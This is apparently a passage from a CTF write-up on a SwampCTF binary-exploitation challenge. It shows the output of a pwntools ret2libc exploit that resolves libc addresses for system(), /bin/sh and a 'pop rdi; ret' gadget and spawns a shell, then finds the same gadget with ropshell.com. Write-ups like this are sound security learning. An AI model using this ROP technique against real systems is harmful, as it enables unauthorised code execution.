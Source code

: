 This looks very much like the challenge [Vladivostok in microcorruption](https://github.com/solomonbstoner/solomonbston3r-ctf-diary/blob/master/microcorruption/Vladivostok%20Microcorruption.md). Both involve calculating the change in memory address of the functions we wish to use. While the change in memory address in Vladivostok is due to ASLR which is different from relocation of a shared library in this challenge, I believe the strategy to winning both is very much the same.

And this is the full output. However, take note that because ASLR is enabled, the address values will change all the time.
```
solomonbstoner@swjsUbuntu:~$ python power.py 
[+] Starting local process './power': pid 12113
[*] '/home/solomonbstoner/Desktop/CTF unsorted and disorganised/SwampCTF/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled


[*] Address of system() in ./power: 0x7f45fe3af390
[*] Address of system() in libc.so.6: 0x45390

[*] Address of libc.so.6 base in ./power: 0x7f45fe36a000

[*] Address of gets() in libc.so.6: 0x6ed80
[*] Address of gets() in ./power: 0x7f45fe3d8d80

[*] Address of /bin/sh in libc.so.6: 0x18cd57
[*] Address of /bin/sh in ./power: 0x7f45fe4f6d57
[*] Address of 'pop rdi; ret;' in libc.so.6: 0x21102
[*] Address of 'pop rdi; ret;' in ./power: 0x7f45fe38b102
[*] Switching to interactive mode
$ whoami
solomonbstoner
$ 
```
Had the challenge server still been up, I could have gotten the flag. But at least I learnt how to find ROP gadgets and form a ROP chain to get a shell.


### Extra fun fact
1. Although it is much easier to rely on `pwntools` to do everything for us, we can always try other tools. For instance, we can use [this website](http://ropshell.com/) to find our ROP gadgets too.
For example, let's try to find the address of `pop rdi; ret; ` in `libc.so.6`. 

```
ropshell> search pop rdi
found 1 gadgets
> 0x00021102 : pop rdi; ret
```
Full output : [Click here](http://ropshell.com/ropsearch?h=5d8e5f37ada3fc853363a4f3f631a41a&p=pop+rdi)

The address of the ROP gadget given by both sources are the same.
| ropshell.com | pwntools |
| --- | --- |
| 0x00021102 | 0x21102 |


END
